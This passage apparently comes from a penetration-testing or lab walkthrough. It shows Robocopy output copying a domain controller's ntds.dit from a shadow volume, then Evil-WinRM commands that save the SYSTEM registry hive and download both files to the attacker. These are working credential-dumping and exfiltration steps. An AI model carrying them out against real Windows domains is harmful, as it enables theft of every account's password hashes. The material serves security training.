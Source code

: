 ```bash
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, March 21, 2024 6:44:01 AM
   Source : z:\windows\ntds\
     Dest : C:\Windows\Temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    z:\windows\ntds\
            New File              18.0 m        ntds.dit
<SNIP>
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           109734697 Bytes/sec.
   Speed :            6279.069 MegaBytes/min.
   Ended : Thursday, March 21, 2024 6:44:01 AM

# download the file
*Evil-WinRM* PS C:\Windows\Temp> download ntds.dit

Info: Downloading C:\Windows\Temp\ntds.dit to ntds.dit

Info: Download successful!
```

We also need to exfiltrate the _system.hive_ file:

```bash
# make a copy of the file
*Evil-WinRM* PS C:\windows\temp> reg save HKlM\SYSTEM C:\windows\temp\system.hive
The operation completed successfully.

# download the file
*Evil-WinRM* PS C:\> download system.hive

Info: Downloading C:\\system.hive to system.hive

Info: Download successful!
```
